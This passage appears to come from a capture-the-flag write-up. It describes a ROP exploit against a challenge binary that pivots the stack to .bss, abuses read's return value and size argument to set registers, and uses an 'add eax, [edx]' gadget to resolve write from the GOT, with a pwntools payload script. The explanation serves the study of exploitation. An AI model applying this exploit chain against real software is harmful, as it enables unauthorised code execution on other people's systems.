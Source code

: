 ROPGadget gave us this interesting gadget:
```
0x0804927b : add eax, dword ptr [edx] ; jp 0x8049248 ; ret
```
If we can get `edx` to be the GOT address of `read` and `eax` is `0xa0` then we can call `eax` to get a `write`. After generating new binaries, it was consitent that this gadget was present. The `jp` can also be avoided so no jump occurs.

Unfortunetly, there were no gadgets that let me control `edx`, however, a side effect of my pivot to the bss allowed me to control `edx` through the total size of the read. This means if I call read with the size `0x804b00c` (GOT of read), `edx` becomes the value I need. Additionally, `eax` is set by the actual number of bytes read. So calling read with the max length `0x804b00c` but actually supplying `0xa0` bytes sets the registers the the correct values.

Now, to use that `add eax...` gadget, I need to find it automatically every time. I could call ropgadget and parse the output but I used binaryninja to search for the bytes that correspond to `add eax, dword ptr [edx]`. 

With the following payload, we get `eax` to point to the `write` function.
```py
rop = ROP(elf)
leave_ret = rop.find_gadget(['leave','ret'])[0]
read = elf.plt['read']
add_eax = bv.find_next_data(bv.start,b"\x03\x02\x7a")

# pivot to bss
payload  = b"A"*(size-4)
payload += p32(elf.bss()) #ebp
payload += p32(read)
payload += p32(leave_ret)
payload += p32(0)
payload += p32(elf.bss(4))
payload += p32(elf.got['read'])

io.send(payload)
io.interactive()

payload2  = b""
payload2 += p32(add_eax)
payload2  = payload2.ljust(0xa0,b"\x90")

io.send(payload2)
io.interactive()
```

In GDB, we can confirm.
